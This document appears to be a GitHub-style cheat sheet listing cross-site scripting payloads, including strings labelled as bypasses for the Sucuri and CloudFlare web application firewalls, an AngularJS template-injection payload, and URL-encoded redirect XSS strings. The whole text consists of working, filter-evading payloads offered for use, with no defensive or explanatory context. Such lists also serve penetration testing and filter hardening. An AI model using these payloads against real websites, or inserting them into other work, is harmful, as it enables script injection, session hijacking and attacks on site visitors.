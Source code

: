 
## XSS Payload
--- 
```
'-confirm(document.domain)-'
'-prompt`1 `-'@blahblah.com
**Sucuri WAF XSS bypass**
"><input/onauxclick="[1].map(prompt)">

**angular JS**
{{constructor.constructor('alert(1)')()}}

```
<br>

## Bypass url redirect XSS**
--- 
```
%2500%27onmouseover=%27window.stop();alert(document.domain)
%27style=%27font-size:1000px;background-color:red%27
```
<br>

##CloudFlare bypass
--- 
```
<iframe/src='%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A:prompt`1`'>
<svg onload=prompt%26%230000000040document.domain)>
<--`<img/src=` onerror=confirm``> --!>
</Scrpt/"%27--!>%20<Scrpt>%20confirm(1)%20</Scrpt>
</> " <a+HREF='%26%237javascrip%26%239t:alert%26lpar;document.domain)'> " </>
```